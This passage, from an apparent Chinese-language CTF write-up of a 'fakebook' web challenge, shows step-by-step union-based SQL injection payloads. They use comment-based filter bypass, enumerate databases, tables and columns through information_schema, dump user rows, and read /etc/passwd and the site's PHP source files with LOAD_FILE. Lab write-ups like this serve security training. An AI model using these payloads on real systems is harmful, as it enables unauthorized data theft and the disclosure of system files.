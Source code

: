 ~~~
```
成功

由于这里只显示一条数据,直接(1和2都有数据,不利于展示)
```
0 and 1=1 union/**/select 1,2,3,4
```
(在后面加limit指定范围的行也行)

开始常规爆库,爆表名,爆字段

```2 and 1=2 union/**/select 1,2,3,4``` -->  Notice: unserialize(): Error at offset 0 of 1 bytes in /var/www/html/view.php on line 31(有序列化问题存在)

```0 and 1=2 union/**/select user(),database(),version(),4```  --> fakebook 

发现只有位置2的数据才可以在网页显示出来(limit 0,4,意思是从第0条数据开始往后推4条数据,一共返回4条数据)

```0 and 1=2 union/**/select database(),user(),version(),4``` --> root@localhost	

```0 and 1=2 union/**/select 1,SCHEMA_NAME,4,5 from information_schema.SCHEMATA limit 0,4``` --> fakebook

```0 and 1=2 union/**/select 1,SCHEMA_NAME,4,5 from information_schema.SCHEMATA limit 1,4``` --> information_schema	

```0 and 1=2 union/**/select 1,SCHEMA_NAME,4,5 from information_schema.SCHEMATA limit 2,4``` --> mysql

```0 and 1=2 union/**/select 1,SCHEMA_NAME,4,5 from information_schema.SCHEMATA limit 3,4``` -->performance_schema

```0 and 1=2 union/**/select 1,SCHEMA_NAME,4,5 from information_schema.SCHEMATA limit 4,4``` -->test

爆当前库下的表名(limit一直试,发现只有一个)

```0 and 1=2 union/**/select 2,TABLE_NAME,4,5 from information_schema.TABLES where TABLE_SCHEMA=database() limit 0,4``` --> users

爆字段(省略了一部分,与第一个大同小异)

```0 and 1=2 union/**/select 2,COLUMN_NAME,4,5 from information_schema.COLUMNS where TABLE_NAME= 'users' limit 0,4```(users记得加'') --> no

字段名:(爆出来的字段如下)

no username passwd data USER CURRENT_CONNECTIONS TOTAL_CONNECTIONS	

查看内容

```0 and 1=2 union/**/select 2,username,4,5 from users limit 0,1``` --> a

```0 and 1=2 union/**/select 2,data,4,5 from users limit 0,1```(发现还是原本注册的数据,不过这里的data是序列化后的结果,根据前面报的反序列化错误,猜测我们某个地方应该要输入序列化的数据)

所以现在得到的信息是:

1.某个地方应该要输入序列化的数据

2.这题的flag不是放在数据库里(因为爆完了都没找到)

继续尝试读取文件
```
0 and 1=2 union/**/select 2,LOAD_FILE('/etc/passwd'),4,5 from users limit 0,1
```

![My helpful screenshot](/assets/img/2019-11-28-01/5.png)

竟然成功了...

尝试读取以下
```
0 and 1=2 union/**/select 2,LOAD_FILE('/var/www/html/db.php'),4,5 from users limit 0,1
0 and 1=2 union/**/select 2,LOAD_FILE('/var/www/html/view.php'),4,5 from users limit 0,1
~~~